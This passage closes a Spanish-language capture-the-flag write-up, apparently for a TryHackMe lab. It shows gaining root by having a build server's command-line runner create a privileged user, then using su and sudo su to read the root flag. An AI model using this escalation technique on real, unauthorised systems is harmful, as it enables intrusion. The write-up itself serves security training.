    
    <br>
    <em>Creamos el código que queremos procesar, en este caso yo creé un usuario para tener el control total, asegurarse que el "Runner Type" sea "Command-line"</em>
    <br><br>
    
    <br>
    <em>Ejecutamos el script presionando "Run"</em>
    <br><br>
    
    <br>
    <em>Script ejecutado con éxito</em>
    <br><br>
</div>

<br>

En este punto ya podemos cambiar de usuario en la sesión que tenemos por SSH y simplemente tenemos que cambiar a `root` con el usuario que creamos:

```shell
sys-internal@ip-10-114-158-11:~$ su pwned
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

pwned@ip-10-114-158-11:/home/sys-internal$ whoami
pwned
pwned@ip-10-114-158-11:/home/sys-internal$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 
root@ip-10-114-158-11:/home/sys-internal# whoami
root
root@ip-10-114-158-11:/home/sys-internal# cd /root
root@ip-10-114-158-11:~# ls -a
.  ..  .bash_history  .bashrc  .BuildServer  .cache  .config  .dbus  .gnupg  .local  .profile  .rediscli_history  root.txt  .ssh  .thumbnails  .viminfo
root@ip-10-114-158-11:~# cat root.txt 
THM{[REDACTED]}
```

<br>

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>